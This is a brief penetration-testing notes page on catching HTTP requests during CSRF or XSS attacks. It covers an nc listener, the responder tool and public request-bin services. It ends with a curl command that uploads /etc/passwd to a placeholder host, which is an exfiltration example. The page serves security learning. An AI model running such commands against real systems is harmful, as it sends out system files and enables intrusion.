 # Request Grabber

<div class="row row-cols-lg-2"><div>

During pentesting activies, we may want to catch HTTP requests, such as during a CSRF attack or a XSS attack.

If our machine is within the same network, we can use `nc`:

```shell!
$ nc -lnvp PORT
<send request to YOUR_PUBLIC_IP:PORT>
```

We can use [responder](/cybersecurity/red-team/tools/utilities/networking/responder.md) for Windows Authentication Requests.
</div><div>

We may use online public solutions such as API Testing Platforms:

* [requestbin](https://public.requestbin.com/r/) <small>(HTTP 🌍)</small>
* [postbin](https://www.toptal.com/developers/postbin/) <small>(HTTP 🌍)</small>
* [ngrok](https://ngrok.com/) <small>(HTTP 🌍 and TCP ⭐, account required 🪦)</small>
* [requestinspector](https://requestinspector.com/) <small>(HTTP 🌍)</small>
* [beeceptor](https://beeceptor.com/) <small>(HTTP 🌍)</small>
* ...

```ps
$ curl http://XXX/xxxxxx -F "data=@/etc/passwd"
```
</div></div>